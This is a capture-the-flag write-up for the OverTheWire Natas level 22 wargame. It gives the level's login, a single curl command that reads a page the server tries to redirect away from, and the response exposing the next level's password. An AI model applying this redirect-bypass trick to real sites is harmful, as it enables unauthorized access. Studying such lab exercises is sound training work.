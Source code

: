 # Natas22

*	user: `natas22`
*	pass: `chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ`
*	url: [http://natas22.natas.labs.overthewire.org](http://natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ@natas22.natas.labs.overthewire.org)
*	flag: `D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE`

## Procedure

1.	Probably one of the simplest levels

		$ curl -i -XGET -u natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ http://natas22.natas.labs.overthewire.org/?revelio
		HTTP/1.1 302 Found
		Date: Fri, 10 Apr 2015 19:01:45 GMT
		Server: Apache/2.4.7 (Ubuntu)
		X-Powered-By: PHP/5.5.9-1ubuntu4.7
		Set-Cookie: PHPSESSID=90gd0gl4m2jg8p1p31hfd2ma77; path=/; HttpOnly
		Expires: Thu, 19 Nov 1981 08:52:00 GMT
		Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
		Pragma: no-cache
		Location: /
		Content-Length: 1049
		Content-Type: text/html

		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->
		<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
		<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
		<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
		<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
		<script>var wechallinfo = { "level": "natas22", "pass": "chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ" };</script></head>
		<body>
		<h1>natas22</h1>
		<div id="content">

		You are an admin. The credentials for the next level are:<br><pre>Username: natas23
		Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE</pre>
		<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		</div>
		</body>
		</html>

